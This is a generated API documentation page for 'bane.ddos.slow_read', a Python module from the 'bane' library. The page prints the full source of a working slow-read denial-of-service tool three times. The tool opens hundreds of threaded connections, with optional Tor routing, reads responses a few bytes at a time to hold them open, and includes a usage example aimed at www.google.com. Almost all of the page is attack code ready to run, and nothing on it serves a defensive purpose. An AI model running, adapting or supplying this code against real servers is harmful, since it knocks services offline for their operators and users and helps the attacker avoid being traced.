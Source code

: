 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.slow_read</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *
&#34;&#34;&#34;
   this tool is to perform slow reading attack. i read about this type of attacks on: https://blog.qualys.com/tag/slow-http-attack and tried to do the same thing in python (but in a better way though :p ). on this attack, the attacker is sending a full legitimate HTTP request but reading it slowly to keep the connection open as long as possible. here im doing it a bit different of the original attack with slowhttptest, im sending a normal HTTP request on each thread then read a small part of it (between 1 to 3 bytes randomly sized) then it sleeps for few seconds (3 to 5 seconds randomly sized too), then it sends another request and keep doing the same and keeping the connection open forever.

   it takes the following parameters:

   u: target ip or domain
   p: (set by default to: 80)
   threads: (set by default to: 500) number of connections
   timeout: (set by default to: 5) connection timeout flag 

   example:

   &gt;&gt;&gt;import bane
   &gt;&gt;&gt;bane.slow_read_attack(&#39;www.google.com&#39;,p=443,threads=300,timeout=7)

&#34;&#34;&#34;


class slow_read(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        paths=[&#34;/&#34;],
        threads_daemon=True,
        threads=500,
        timeout=5,
        min_speed=3,
        max_speed=5,
        max_read=3,
        min_read=1,
        logs=False,
        tor=False,
        duration=60,
    ):
        self.counter = 0
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.stop = False
        self.target = u
        self.port = p
        self.paths = paths
        self.timeout = timeout
        self.tor = tor
        self.read_max = max_read
        self.read_min = min_read
        self.min_speed = min_speed
        self.max_speed = max_speed
        self.logs = logs
        self.duration = duration
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(
                                setup_http_packet(
                                    self.target,
                                    3,
                                    self.paths,
                                    2,
                                    8,
                                    10,
                                    50,
                                    self.cookie,
                                    self.user_agents,
                                ).encode(&#34;utf-8&#34;)
                            )
                            self.counter += 1
                            while True:
                                d = s.recv(random.randint(self.read_min, self.read_max))
                                if self.logs == True:
                                    sys.stdout.write(
                                        &#34;\rReceived: {}   &#34;.format(
                                            str(d.decode(&#34;utf-8&#34;).strip())
                                        )
                                    )
                                    sys.stdout.flush()
                                    # print(&#34;Received: {}&#34;.format(str(d.decode(&#39;utf-8&#39;))))
                            time.sleep(random.randint(self.min_speed, self.max_speed))
                        except:
                            break
                    s.close()
                except:
                    pass
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.slow_read.slow_read"><code class="flex name class">
<span>class <span class="ident">slow_read</span></span>
<span>(</span><span>u, p=80, cookie=None, user_agents=None, paths=['/'], threads_daemon=True, threads=500, timeout=5, min_speed=3, max_speed=5, max_read=3, min_read=1, logs=False, tor=False, duration=60)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class slow_read(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        paths=[&#34;/&#34;],
        threads_daemon=True,
        threads=500,
        timeout=5,
        min_speed=3,
        max_speed=5,
        max_read=3,
        min_read=1,
        logs=False,
        tor=False,
        duration=60,
    ):
        self.counter = 0
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.stop = False
        self.target = u
        self.port = p
        self.paths = paths
        self.timeout = timeout
        self.tor = tor
        self.read_max = max_read
        self.read_min = min_read
        self.min_speed = min_speed
        self.max_speed = max_speed
        self.logs = logs
        self.duration = duration
        self.start = time.time()
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout(self.timeout)
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    while True:
                        if (
                            int(time.time() - self.start) &gt;= self.duration
                        ):  # this is a safety mechanism so the attack won&#39;t run forever
                            break
                        if self.stop == True:
                            break
                        try:
                            s.send(
                                setup_http_packet(
                                    self.target,
                                    3,
                                    self.paths,
                                    2,
                                    8,
                                    10,
                                    50,
                                    self.cookie,
                                    self.user_agents,
                                ).encode(&#34;utf-8&#34;)
                            )
                            self.counter += 1
                            while True:
                                d = s.recv(random.randint(self.read_min, self.read_max))
                                if self.logs == True:
                                    sys.stdout.write(
                                        &#34;\rReceived: {}   &#34;.format(
                                            str(d.decode(&#34;utf-8&#34;).strip())
                                        )
                                    )
                                    sys.stdout.flush()
                                    # print(&#34;Received: {}&#34;.format(str(d.decode(&#39;utf-8&#39;))))
                            time.sleep(random.randint(self.min_speed, self.max_speed))
                        except:
                            break
                    s.close()
                except:
                    pass
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.slow_read.slow_read.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                if self.tor == False:
                    s.settimeout(self.timeout)
                if self.tor == True:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                s.connect((self.target, self.port))
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                while True:
                    if (
                        int(time.time() - self.start) &gt;= self.duration
                    ):  # this is a safety mechanism so the attack won&#39;t run forever
                        break
                    if self.stop == True:
                        break
                    try:
                        s.send(
                            setup_http_packet(
                                self.target,
                                3,
                                self.paths,
                                2,
                                8,
                                10,
                                50,
                                self.cookie,
                                self.user_agents,
                            ).encode(&#34;utf-8&#34;)
                        )
                        self.counter += 1
                        while True:
                            d = s.recv(random.randint(self.read_min, self.read_max))
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rReceived: {}   &#34;.format(
                                        str(d.decode(&#34;utf-8&#34;).strip())
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Received: {}&#34;.format(str(d.decode(&#39;utf-8&#39;))))
                        time.sleep(random.randint(self.min_speed, self.max_speed))
                    except:
                        break
                s.close()
            except:
                pass
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.slow_read.slow_read" href="#bane.ddos.slow_read.slow_read">slow_read</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.slow_read.slow_read.attack" href="#bane.ddos.slow_read.slow_read.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>